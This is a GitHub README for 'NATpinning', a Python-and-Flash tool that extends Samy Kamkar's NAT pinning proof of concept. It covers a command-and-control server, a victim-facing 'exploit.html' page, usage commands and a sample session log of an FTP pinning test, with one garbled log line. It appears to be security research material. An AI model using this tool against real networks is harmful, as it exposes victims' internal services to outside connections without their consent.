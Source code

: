 NATpinning
===============
This tool is based of the original NAT pinning proof-of-concept by Samy Kamkar: http://samy.pl/natpin/.
Nat handler modules are used by the kernel to keep track of protocols on natted networks that require additional communication channels to be opened for normal operations. These modules might be susceptible to abuse if/when they do not strictly adhere to RFCs. They might for instance allow the exposure of assigned ports, where only random port ranges should be allowed, or allow exposure of ports on a third party.

Samy's original proof-of-concept was javascript based, which brought with it several shortcommings:

	- client-response sequences might be broken due to additional HTTP headers
	- opening some ports might be blocked by browsers (e.g.: 6667 for irc on Firefox)

To overcome these issues I used flash as client side component. This allowed the use of Flash sockets, which don't have the extra overhead of HTTP headers and are not restricted by browser policies. 
I also attempted to extend this proof-of-concept to a more mature state by creating a server side tool which supports several protocols and gives some level of control over the client behavior.


How it works
============
The suite consists of of a server compnent (python) and a client component (web page).

The server is a python script which needs to be run from an Internet based host, with a public IP assigned to it and not firewalled.
Once the script is running it will open dummy services (irc, ftp, sip ), a flash policy server, a web service and a command-and-control service.

The client is the combination of HTML, JavaScript and, most importantly, a AS3 (Actionscript 3) flash file. 
When the victim loads the exploit page, the flash file will connect to the command service and register itself.
At this point it is possible to start testing for possible natpinning issues using the command server by instructing the client to initiate sessions for the different protocols.

When succesfull nat pinning is detected the user controlling the server can drop to shell and initiate a connection back to the newly exposed port using their favorite tool.

Installation
==============
Tested on xubuntu and backtrack, requires python 2.7
to install:
git clone https://github.com/allodoxaphobia/natpinning.git


Usage
==============
on the server: sudo ./run.py

Usage: run.py 

Options:
  -h, --help  show this help message and exit
  --no-web    Do not run the internal web service (port 80).
  --no-flash  Do not run the internal flash policy service (port 843).
  -v VERBOSE  Verbosity level, default is 2, set to 0 if you like a lot of
              output.

Example 1: Testing for FTP NAT pinning (failed)
==================================================

On the server: sudo ./run.py

 $ sudo ./run.py -v 0
 Command Server : Started
 Web Se1.2.3.4d
 Flash Policy Server : Started
 FTP Server : Started
 IRC Server : Started
 SIP Server : Started
 H225 Server : Started
 Services running, press CTRL-C to exit.
 One shell to rule them all

Assuming 1.2.3.4 is IP address of the server, open http://1.2.3.4/ in a browser on the client side:
 This page intentionally left blank. Tests are in progress.
 Usage: http://server/exploit.html?ci=ip_of_client

Same time on the server side:
 Web Server : Received connection from ::ffff:1.2.3.4 on port 80
 Web Server : Victim requested page: exploit.html
 Web Server : ---User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:25.0) Gecko/20100101 Firefox/25.0

Open http://1.2.3.4/exploit.html?ci=192.168.1.44 in a browser on the client side:
 This page intentionally left blank. Tests are in progress.

Same time on the server side:
 Web Server : Received connection from ::ffff:1.2.3.4 on port 80
 Web Server : Victim requested page: exploit.html?ci=192.168.1.44
 Web Server : ---User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:25.0) Gecko/20100101 Firefox/25.0
 Web Server : Victim requested page: exploit.swf
 Web Server : ---User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:25.0) Gecko/20100101 Firefox/25.0
 Flash Policy Server : Received connection from ::ffff:1.2.3.4 on port 843
 Flash Policy Server : FLASH policy file request
 Command Server : Received connection from ::ffff:1.2.3.4 on port 60003
 Command Server : New client registered as ::ffff:1.2.3.4-192.168.1.44

 np> list clients
    ID	Client ID			Address
 --------------------------------------------------------------------------
    0.   ::ffff:1.2.3.4-192.168.1.44		::ffff:1.2.3.4		197

 np> test 0 ftp 192.168.1.44 22
 Command Server : ::ffff:1.2.3.4-192.168.1.44 : send 20140112140348852654
 FTP Server : Received connection from ::ffff:1.2.3.4 on port 21
 FTP Server : Callback expected on 192.168.1.44:22
 FTP Server : FTP Received PORT + LIST callback request for 192.168.1.44 on port 22
 Test 20140112140348852654 FAILED


License
==============
This tool was created by Gremwell (http://www.gremwell.com) and released under GNU GPL v3. 
